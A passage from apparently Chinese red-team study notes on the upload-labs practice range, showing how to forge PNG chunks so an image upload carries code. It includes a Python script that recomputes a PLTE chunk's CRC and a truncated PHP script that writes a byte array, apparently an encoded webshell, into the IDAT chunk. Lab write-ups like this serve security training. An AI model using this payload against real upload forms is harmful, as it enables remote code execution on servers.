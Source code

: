     2. 计算 PLTE 数据块的 CRC 脚本

        ```python
        import binascii
        import re

        png = open(r'2.png','rb')
        a = png.read()
        png.close()
        hexstr = binascii.b2a_hex(a)

        ''' PLTE crc '''
        data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
        crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
        print hex(crc)
        ```
        运行结果 `526579b0`

    3. 修改 CRC 值

        ![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/upload-labs/15.png)

- **写入IDAT数据块**

    这里有国外大牛写的脚本,直接拿来运行即可.
    ```php
    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);



    $img = imagecreatetruecolor(32, 32);

    for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
    }
